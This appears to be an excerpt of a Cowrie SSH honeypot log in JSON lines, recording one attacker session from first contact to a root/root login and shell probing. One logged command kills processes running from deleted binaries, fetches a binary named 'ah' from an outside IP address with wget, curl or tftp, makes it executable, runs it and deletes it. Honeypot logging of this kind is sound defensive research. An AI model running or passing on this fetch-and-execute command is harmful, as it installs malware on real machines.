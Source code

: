 ```json
{"eventid":"cowrie.client.kex","hassh":"63ae64767f334c6a74647d80edb0291e","hasshAlgorithms":"curve25519-sha256,curve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group-exchange-sha256,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1,diffie-hellman-group-exchange-sha1;aes128-ctr,aes192-ctr,aes256-ctr,aes256-cbc,rijndael-cbc@lysator.liu.se,aes192-cbc,aes128-cbc,blowfish-cbc,arcfour128,arcfour,cast128-cbc,3des-cbc,none;hmac-sha2-256,hmac-sha2-512,hmac-sha1,hmac-sha1-96,hmac-md5,hmac-md5-96,hmac-ripemd160,hmac-ripemd160@openssh.com,none;none","kexAlgs":["curve25519-sha256","curve25519-sha256@libssh.org","ecdh-sha2-nistp256","ecdh-sha2-nistp384","ecdh-sha2-nistp521","diffie-hellman-group-exchange-sha256","diffie-hellman-group16-sha512","diffie-hellman-group18-sha512","diffie-hellman-group14-sha256","diffie-hellman-group14-sha1","diffie-hellman-group1-sha1","diffie-hellman-group-exchange-sha1"],"keyAlgs":["ecdsa-sha2-nistp256","ecdsa-sha2-nistp384","ecdsa-sha2-nistp521","ecdsa-sha2-nistp256-cert-v01@openssh.com","ecdsa-sha2-nistp384-cert-v01@openssh.com","ecdsa-sha2-nistp521-cert-v01@openssh.com","ssh-ed25519","ssh-rsa","ssh-dss"],"encCS":["aes128-ctr","aes192-ctr","aes256-ctr","aes256-cbc","rijndael-cbc@lysator.liu.se","aes192-cbc","aes128-cbc","blowfish-cbc","arcfour128","arcfour","cast128-cbc","3des-cbc","none"],"macCS":["hmac-sha2-256","hmac-sha2-512","hmac-sha1","hmac-sha1-96","hmac-md5","hmac-md5-96","hmac-ripemd160","hmac-ripemd160@openssh.com","none"],"compCS":["none"],"langCS":[""],"message":"SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e","sensor":"","timestamp":"2023-11-30T01:42:06.603497Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.login.success","username":"root","password":"root","message":"login attempt [root/root] succeeded","sensor":"","timestamp":"2023-11-30T01:42:06.993253Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.session.params","arch":"linux-x64-lsb","message":[],"sensor":"","timestamp":"2023-11-30T01:42:07.187733Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"enable","message":"CMD: enable","sensor":"","timestamp":"2023-11-30T01:42:07.264680Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"system","message":"CMD: system","sensor":"","timestamp":"2023-11-30T01:42:07.342616Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"system","message":"Command not found: system","sensor":"","timestamp":"2023-11-30T01:42:07.343543Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"shell","message":"CMD: shell","sensor":"","timestamp":"2023-11-30T01:42:07.344757Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"shell","message":"Command not found: shell","sensor":"","timestamp":"2023-11-30T01:42:07.345546Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"sh","message":"CMD: sh","sensor":"","timestamp":"2023-11-30T01:42:07.346481Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"linuxshell","message":"CMD: linuxshell","sensor":"","timestamp":"2023-11-30T01:42:07.348235Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"linuxshell","message":"Command not found: linuxshell","sensor":"","timestamp":"2023-11-30T01:42:07.349000Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"cd /tmp/; echo \"senpai\" > rootsenpai; cat rootsenpai; rm -rf rootsenpai","message":"CMD: cd /tmp/; echo \"senpai\" > rootsenpai; cat rootsenpai; rm -rf rootsenpai","sensor":"","timestamp":"2023-11-30T01:42:07.354857Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"for dir in /proc/[0-9]*; do grep -q \"(deleted)\" \"$dir/maps\" && echo \"Killing process with PID: $(basename $dir)\" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah","message":"CMD: for dir in /proc/[0-9]*; do grep -q \"(deleted)\" \"$dir/maps\" && echo \"Killing process with PID: $(basename $dir)\" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah","sensor":"","timestamp":"2023-11-30T01:42:07.457483Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"basename $dir","message":"CMD: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.458423Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.failed","input":"basename $dir","message":"Command not found: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.460015Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
{"eventid":"cowrie.command.input","input":"basename $dir","message":"CMD: basename $dir","sensor":"","timestamp":"2023-11-30T01:42:07.460604Z","src_ip":"204.76.203.13","session":"651b145b8fb8"}
```